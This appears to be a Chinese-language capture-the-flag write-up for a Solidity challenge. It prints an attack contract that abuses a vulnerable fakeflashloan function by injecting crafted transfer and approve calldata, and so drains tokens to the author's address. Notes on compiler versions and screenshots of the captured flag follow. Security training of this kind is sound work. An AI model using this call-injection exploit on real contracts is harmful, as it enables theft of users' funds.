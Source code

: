 ```

import"./Vuln.sol";

contract Attack{

    Vuln cont;
    
    constructor(address _adr){
        cont = Vuln(_adr);
    }

    function attack() public {
        bytes memory byt;
        bytes memory byt2;
        address adr=0x100200fF289D4dA0634fF36d7f5D96524f7EFf67;//我的账户地址
        byt  =  abi.encodePacked(bytes4(keccak256("transfer(address,uint256)")),bytes32(adr),bytes32(10001));
        byt2 =  abi.encodePacked(bytes4(keccak256("approve(address,uint256)")),bytes32(adr),bytes32(10001));
        cont.fakeflashloan(1000,address(cont),byt);//transfer 10001个token给我
        cont.fakeflashloan(1000,address(cont),byt2);//approve 10001个token的approve给我
    }

}
```
注意：原题中用到了solidity7.0版本的编译环境，在新版的solidity中攻击合约中`bytes32(adr),bytes32(10001)`的语法是不被允许的,所以我直接选择了用更低版本的暂时替代。
>PS：有关新版本的写法我会在后续更新

在这里我们通过调用`fakeflashloan()`这个问题函数，构造了`byt`和`byt2`这样的bytes去实现call注入的函数调用。

构造这个bytes占了我解题时常的90％，一直攻击无效，因为这个靶场测试网没办法debug,给我带来了很多困难。最终我选择脱离靶场的测试网环境，在本地进行测试。<br/>
有关bytes的构造大家可以参考[solidity的abi参考文档](https://learnblockchain.cn/docs/solidity/abi-spec.html?highlight=abi)
![](images/range/abi.png)
# 攻击效果：
夺旗：
![](images/range/CallFlag.png)
合约被攻击后：
![](images/range/suc1.png)
![](images/range/suc2.png)